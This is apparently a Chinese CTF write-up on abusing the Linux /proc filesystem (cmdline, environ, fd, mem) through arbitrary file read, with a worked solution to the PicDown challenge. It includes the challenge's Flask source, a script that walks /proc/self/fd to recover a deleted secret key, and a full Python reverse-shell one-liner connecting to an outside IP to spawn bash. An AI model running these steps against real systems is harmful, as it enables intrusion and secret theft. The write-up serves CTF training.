

## Proc 目录在 CTF 中的利用

### begin

`/proc`一般配合任意文件读取来获取服务端的信息

### /proc

Linux系统上的/proc目录是一种文件系统，即proc文件系统。与其它常见的文件系统不同的是，/proc 是一种伪文件系统（也即虚拟文件系统），存储的是当前内核运行状态的一系列特殊文件，用户可以通过这些文件查看有关系统硬件及当前正在运行进程的信息，甚至可以通过更改其中某些文件来改变内核的运行状态。

简单来讲，`/proc` 目录即保存在系统内存中的信息，大多数虚拟文件可以使用文件查看命令如cat、more或者less进行查看，有些文件信息表述的内容可以一目了然，但也有文件的信息却不怎么具有可读性。

/proc 目录中包含许多以数字命名的子目录，这些数字表示系统当前正在运行进程的进程号(PID)，里面包含对应进程相关的多个信息文件：

```bash
ls -al /proc
```


一般是这样的，里面的数字数字就是**pid**，一个进程为一个文件夹

**self**则表示当前进程

```bash
sudo ls -al /proc/1
```


只说几个重要的，更多的待挖掘

> **cmdline**
>
> 表示执行当前进程所用的命令，如：
>
> ```bash
> python3 app.py
> ```
>
> **environ**
>
> 当前进程的环境变量，一般来说可以配合**flask**来伪造**session**，但是密钥不一定都在环境变量里面
>
> **cwd**
>
> 指向当前目录，是一个文件夹，可利用其在不知道当前目录的情况下读取当前目录文件
>
> **fd**
>
> 当前进程打开的文件内容，如果打开了没关闭就会显示在这里`f.open`没有`f.close`
>
> **exe**
>
> 指向当前运行进程的命令，如`cat`命令
>
> **maps**
>
> 该进程在内存中的位置
>
> **mem**
>
> 内存，利用这个可以获得所有运行中需要的数据，如**密钥**，如果**environ**看不到，可以看看这里面。但是读取的前提是需要起始和长度，所以需要配合maps，而且题目必须有读多少位的功能

## 例题

### [网鼎杯 2020 白虎组]PicDown

可以读取任意文件，但是buu环境非预期直接`/flag`就读到了，写写预期

```bash
/proc/self/cmdline
# python2 app.py
```

**app.py**

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

可以看到，是要我们访问`/no_one_know_the_manager`，然后直到密钥，就可以**rce**

而密钥就在**/tmp/secret.txt**中，但是没删除了

```
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
```

删除完并没有执行`f.close()`，可以利用**fd**的机制来读到文件

```python
import requests
import time

for i in range(1000):
   url = f"http://1cab5676-61b3-48d6-918c-655a57e5b8e8.node4.buuoj.cn:81/page?url=/proc/self/fd/{i}"
   r = requests.get(url)
   if r.text[-1:] != ">":
      print(r.text)
   time.sleep(1)
   print(i)
```

拿到密钥后反弹shell，利用python反弹

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.15.107.150",3296));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

直接bash没弹成功

然后拿到flag

还有几个题都是这个思路就不说了

### [CatCtf2022]catcat

放在比赛复现的wp里了

这题和蓝帽杯初赛的题是一样的
